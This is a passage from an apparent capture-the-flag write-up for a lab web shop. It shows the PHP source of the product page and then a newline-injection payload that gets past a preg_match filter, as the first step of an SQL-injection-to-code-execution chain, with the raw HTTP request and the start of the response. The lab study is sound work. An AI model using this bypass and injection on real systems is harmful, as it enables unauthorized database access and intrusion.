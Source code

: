 ```php
            exit('Product does not exist!');
        }
    }
} else {
    // Simple error to display if the id wasn't specified
    exit('No ID provided!');
}
?>

<?=template_header('Zipping | Product')?>

<div class="product content-wrapper">
    <img src="assets/imgs/<?=$product['img']?>" width="500" height="500" alt="<?=$product['name']?>">
    <div>
        <h1 class="name"><?=$product['name']?></h1>
        <span class="price">
            &dollar;<?=$product['price']?>
            <?php if ($product['rrp'] > 0): ?>
            <span class="rrp">&dollar;<?=$product['rrp']?></span>
            <?php endif; ?>
        </span>
        <form action="index.php?page=cart" method="post">
            <input type="number" name="quantity" value="1" min="1" max="<?=$product['quantity']?>" placeholder="Quantity" required>
            <input type="hidden" name="product_id" value="<?=$product['id']?>">
            <input type="submit" value="Add To Cart">
        </form>
        <div class="description">
            <?=$product['desc']?>
        </div>
    </div>
</div>

<?=template_footer()?>
```

### SQLI to RCE

Knowing that preg_match is being used there is a common bypass that often works with this method. by supplying a linefeed it will ignore what comes before  that. So our payload would have to be in theory **linefeed** OUR SQL STATEMENTS **linefeed** number. So to test out this theory i just  added a character that isn't allowed between two linefeeds and ending with a number

```
%0Athisfiledoesnotexist%0A3
```

I sent the following request with our payload.
```
GET /shop/index.php?page=product&id=%0Athisfiledoesnotexist%0A3 HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=73lml6dp7ndhvc7f29dn95el34
Upgrade-Insecure-Requests: 1
```
The server then issued the following response saying the product is not found. This means we bypassed the preg_match filter
```
HTTP/1.1 200 OK
Date: Fri, 29 Dec 2023 10:00:50 GMT
```